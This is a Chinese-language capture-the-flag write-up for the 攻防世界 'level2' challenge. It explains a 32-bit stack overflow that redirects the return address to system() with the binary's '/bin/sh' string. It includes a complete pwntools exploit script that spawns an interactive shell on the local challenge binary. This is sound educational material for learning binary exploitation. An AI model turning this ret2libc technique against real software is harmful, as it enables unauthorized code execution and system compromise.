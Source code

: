 # 攻防世界: level2

## **[目标]**
stack overflow,ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

![](./pic/1.png)
- 栈不可执行，但是可以进行溢出。

![](./pic/2.png)

- 发现字符串 bin/sh 和 system 函数，由此想到我们可以把 vulnerable_function 的返回地址修改成system函数的地址，然后把bin/sh字符串的地址也写入栈中，也就是system函数参数的位置上。构造如下payload：

```
payload = 'a'*0x8c 
payload += p32(sys_addr)   #覆盖返回地址到system函数
payload += p32(0x12345678)　#随意填写system函数调用结束的返回地址
payload += p32(bin_addr)　  #system函数的参数，指向“/bin/sh”
```

完整exp：

```python
from pwn import *

p = process('./level2')
elf = ELF("./level2")

sys_addr = elf.symbols["system"]
bin_addr = elf.search("/bin/sh").next()

payload = 'a'*0x8c
payload += p32(sys_addr)
payload += p32(0x12345678)
payload += p32(bin_addr)

p.recvline()
p.sendline(payload)
p.interactive()
```

## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)